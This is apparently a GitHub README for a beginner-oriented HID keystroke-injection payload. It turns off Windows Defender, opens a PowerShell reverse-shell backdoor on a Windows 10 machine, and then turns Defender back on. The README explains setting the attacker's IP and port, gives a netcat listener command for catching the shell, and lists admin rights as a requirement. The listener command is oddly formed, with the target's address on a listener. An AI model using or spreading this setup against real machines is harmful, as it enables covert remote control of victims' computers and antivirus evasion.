# Simple Backdoor for beginners
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script
  
## Description
* opens a backdoor that you can access with Netcat
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender

## Configuration
* You just need to change 192.168.1.1 and 22
* lhost = your IP adress
* lport = the port you want to use for the Backdoor. I recommend ssh (22).
* example: readonly lhost="192.168.4.20" <br/>
           readonly lport="80"

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
* rhost = IP adress from the target
* rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Triple       | activate defender Stage                |
| Green               | Finished                               |
